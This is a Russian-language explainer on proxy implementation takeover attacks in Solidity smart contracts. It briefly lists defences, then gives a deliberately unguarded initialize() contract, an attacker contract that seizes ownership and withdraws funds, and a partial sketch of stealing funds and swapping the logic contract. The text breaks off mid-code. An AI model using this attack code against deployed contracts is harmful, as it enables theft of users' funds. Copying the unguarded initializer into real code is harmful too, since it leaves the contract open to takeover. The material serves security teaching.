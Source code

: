 ## Короткий ответ

Атака захвата имплементации proxy происходит, когда злоумышленник инициализирует неинициализированную имплементацию proxy контракта, получая контроль над ней. Это возможно, если proxy или имплементация не были правильно инициализированы сразу после деплоя. Защита включает немедленную инициализацию, использование атомарных конструкций при деплое и проверку состояния инициализации.

---

## Подробный разбор

### **1. Механизм атаки**

```solidity
// Уязвимая имплементация
contract VulnerableImplementation {
    address public owner;
    bool private initialized;
    
    function initialize() public {
        // Нет проверки initialized
        owner = msg.sender;
        initialized = true;
    }
    
    function withdraw() public {
        require(msg.sender == owner, "Not owner");
        payable(owner).transfer(address(this).balance);
    }
}

// Атакующий контракт
contract Attacker {
    function attack(address implementation) public {
        // Вызываем initialize напрямую
        VulnerableImplementation(implementation)
            .initialize();
            
        // Теперь мы owner имплементации
        VulnerableImplementation(implementation)
            .withdraw();
    }
}
```

### **2. Последствия атаки**

```solidity
contract ProxyVulnerabilities {
    // 1. Кража средств
    function stealFunds(address proxy) external {
        // Если мы захватили owner
        if (IProxy(proxy).owner() == address(this)) {
            // Можем вывести средства
            IProxy(proxy).withdraw();
        }
    }
    
    // 2. Изменение логики
    function changeLogic(address proxy) external {
        // Если мы захватили admin
        if (IProxy(proxy).admin() == address(this)) {
            // Можем подменить имплементацию
```
